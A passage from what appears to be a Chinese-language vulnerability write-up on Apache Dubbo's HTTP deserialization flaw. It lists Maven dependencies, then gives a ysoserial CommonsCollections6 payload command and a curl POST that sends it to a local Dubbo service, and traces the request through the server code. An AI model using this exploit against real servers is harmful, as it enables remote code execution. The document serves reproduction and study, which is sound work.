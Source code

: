 ```xml
    <version>4.0.1</version>
</dependency>
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>9.0.20</version>
</dependency>
<dependency>
    <groupId>org.eclipse.jetty</groupId>
    <artifactId>jetty-server</artifactId>
    <version>9.4.14.v20181114</version>
</dependency>
<dependency>
    <groupId>org.eclipse.jetty</groupId>
    <artifactId>jetty-servlet</artifactId>
    <version>9.4.14.v20181114</version>
</dependency>
<dependency>
    <groupId>com.github.briandilley.jsonrpc4j</groupId>
    <artifactId>jsonrpc4j</artifactId>
    <version>1.2.0</version>
</dependency>
```

好了，可以开心地复现了🖖（vulhub上有这个环境，可以docker拉取把环境里的jar包拿出来放本地调试）

> java -jar ysoserial.jar CommonsCollections6 "calc" > 1.poc
> curl -XPOST --data-binary @1.poc http://127.0.0.1:8666/demo.DemoService

`org.apache.dubbo.remoting.http.servlet.DispatcherServlet#service`，跟`SpringMVC`的`DispatcherServlet`类似，根据访问URL决定交给哪个`handler`处理

![image-20230413202112942](../.gitbook/assets/image-20230413202112942.png)

`skeletonMap`获取`url`对应`HttpInvokerServiceExporter`，跟进`skeleton.handleRequest`

![image-20230413202315103](../.gitbook/assets/image-20230413202315103.png)
